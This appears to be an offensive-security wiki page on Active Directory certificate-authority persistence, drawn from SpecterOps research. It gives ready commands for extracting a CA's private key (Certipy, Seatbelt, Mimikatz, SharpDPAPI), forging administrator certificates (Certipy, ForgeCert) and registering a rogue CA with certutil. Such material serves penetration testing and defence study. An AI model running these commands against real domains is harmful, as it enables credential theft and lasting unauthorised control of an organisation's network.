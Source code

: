 # Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

::: tabs

=== UNIX-like

Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).


```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```


Then, forging (and signing) a certificate can be done as follows.


```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```


The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).


=== Windows

Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```powershell
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.


```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```


Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```powershell
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```powershell
SharpDPAPI.exe certificates /machine
```


```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```


Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).


```powershell
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```


:::


### Rogue CA

> [!WARNING]
> > it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca)

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
